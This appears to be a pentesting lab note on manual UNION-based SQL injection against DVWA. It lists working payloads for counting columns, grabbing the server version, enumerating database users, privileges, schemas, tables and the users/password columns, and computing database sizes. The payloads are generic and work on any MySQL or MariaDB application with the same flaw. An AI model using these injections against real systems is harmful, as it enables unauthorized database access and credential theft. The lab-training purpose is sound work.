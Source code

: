 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - union
  - enumeration-and-discovery
  - dvwa
---
```

# 01 - Database Reconnaissance

## 1.1 - Columns Enumeration

^78ef92

### 1.1.1 - ORDER BY Detection

We need to determine number of columns before we perform the next step.

```sql
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```

Keep enumerating it until you've triggered an error.

![[1.1 - ORDER BY Enumeration.png]]

```
Unknown column '3' in 'order clause'
```

3 - 1 = 2. It has two columns. You can also to enumerate is to end it at 100 fields.

```sql
' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100#
```

### 1.1.2 - GROUP BY Detection

You can enumerate it with **GROUP BY** method and you'll get the same results.

```sql
' GROUP BY 1#
' GROUP BY 2#
' GROUP BY 3#
```

You can also to enumerate is to end it at 100 fields.

```sql
' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100#
```

### 1.1.3 - UNION Detection

```sql
' UNION SELECT 1, 2#

' UNION SELECT 1, 2, 3#

' UNION SELECT NULL, NULL#

' UNION SELECT NULL, NULL, NULL#
```

## 1.2 - Enumeration and Discovery

### 1.2.1 - UNION Enumeration

#### 1.2.1.1 - Banner Grab

Sometimes when we try to retrieve error messages. Sometimes the warning messages may not provide us the SQL server software might be running. However, we can discover it even further to grab the version of the DBMS back-end software is running.

```sql
' UNION SELECT 1, @@VERSION#

' OR 1=1 UNION SELECT 1, @@VERSION#

' UNION SELECT NULL, @@VERSION#

' OR 1=1 UNION SELECT NULL, @@VERSION#
```

The DBMS server is MariaDB which is a fork of MySQL.

![[1.2 - Banner Grab.png]]

#### 1.2.1.2 - Current Database

```sql
' UNION SELECT NULL, DATABASE()#
```

The current database is `dvwa`.

![[1.3 - Current Database.png]]

#### 1.2.1.3 - Current Database User

```sql
' UNION SELECT NULL, USER()#
```

- The current database is `dvwa@localhost`.

![[1.4 - Current User.png]]

Check the current database user is DBA (database administrator).

```sql
' UNION SELECT super_priv, NULL FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT CONCAT(user, '->', 'SUPER', '->', super_priv), NULL FROM mysql.user WHERE user = 'dvwa'#

' UNION SELECT GROUP_CONCAT(user, '->', 'SUPER', '->', super_priv), NULL FROM mysql.user WHERE user = 'dvwa'#
```

![[1.5 - DBA User.png]]

#### 1.2.1.4 - Enumerate DBMS Users

Enumerate DBMS users.

```sql
' UNION SELECT user, NULL FROM mysql.user#

' UNION SELECT GROUP_CONCAT(user), NULL FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SUPER' AND GRANTEE LIKE "'dvwa'%"#
```

![[1.6 - DBMS Users.png]]

Enumerate DBA users.

```sql
' UNION SELECT GROUP_CONCAT(user, '->', 'SUPER', '->', super_priv, '\n'), NULL FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SUPER'#
```

![[1.7 - DBA Users.png]]

#### 1.2.1.5 - Schema Database Enumeration

```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata#
```

![[1.8 - Databases.png]]

Let's enumerate the tables.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables#

' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()#
```

![[1.9 - Tables With The Current DB.png]]

You can narrow it down.

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE 'user%'#
```

Let's note down the tables we've discovered that are potential to retrieve data.

```
users
```

Let's enumerate the columns.

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns#

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = database() AND table_name = 'users'#
```

![[1.10 - Columns With The Current DB.png]]

Let's note down the columns we've discovered that are potential to retrieve data

```
user
password
```

## 1.2 - Calculate Size

### 1.2.1 - Database Size

#### 1.2.1.1 - All Databases

Bytes

```sql
' UNION SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 , 2) FROM information_schema.tables#

' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#

' UNION SELECT NULL, GROUP_CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#
```

Kilobytes

```sql
' UNION SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 , 2) FROM information_schema.tables GROUP BY table_schema#

' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#

' UNION SELECT NULL, GROUP_CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#
```

Megabytes

```sql
' UNION SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) FROM information_schema.tables GROUP BY table_schema#

' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#

' UNION SELECT NULL, GROUP_CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery#
```

#### 1.2.1.2 - Current Database

Bytes

```sql
' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery#
```

Megabytes

```sql
' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery#
```

Gigabytes

```sql
' UNION SELECT NULL, CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery#
```

---
## References

### Hacking Articles

- [Hacking Articles: Form Based SQL Injection Manually](https://www.hackingarticles.in/form-based-sql-injection-manually/)